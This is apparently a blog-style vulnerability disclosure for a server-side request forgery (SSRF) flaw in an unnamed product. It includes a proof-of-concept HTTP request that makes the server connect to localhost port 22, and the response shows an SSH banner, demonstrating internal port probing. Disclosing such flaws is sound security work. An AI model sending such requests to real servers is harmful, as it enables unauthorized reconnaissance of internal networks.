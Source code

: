 ```yaml
---
layout: post
title:  "Server-side request forgery (SSRF)"
date:   2023-04-06 19:51:02 +0700 
categories: [cve]
---
```


* CVE ID: awaiting assignment
* CWE ID: CWE-918

... products server-side request forgery

Summary:

... products is vulnerable to server-side request forgery (SSRF). This may allow an unauthenticated attacker to send unauthorized requests from the system, potentially leading to network enumeration or facilitating other attacks.

Product:

...

Version:

...

Proof-of-Concept:

Web server is externally accessible; and permitted to invoke connections to internal hosts. The HTTP GET Request can be abused by unauthenticated attackers to cause the web server to connect to an arbitrary TCP port of an arbitrary host.

Responses returned are fairly verbose and can be used to infer whether a service is listening on the port specified.

Below is an example request to an localhost with open port:

Request:
{% highlight ruby %}
GET http://localhost:22/ HTTP/1.1
Host: [redacted]
Pragma: no-cache
Cache-Control: no-cache, no-transform
Connection: close

Response:

HTTP/1.1 200 OK
Date: Wed, 12 Oct 2022 01:47:04 GMT
Connection: close
Content-Type: text/plain
Content-Length: 38

SSH-2.0-OpenSSH_5.3Protocol mismatch.
{% endhighlight %}
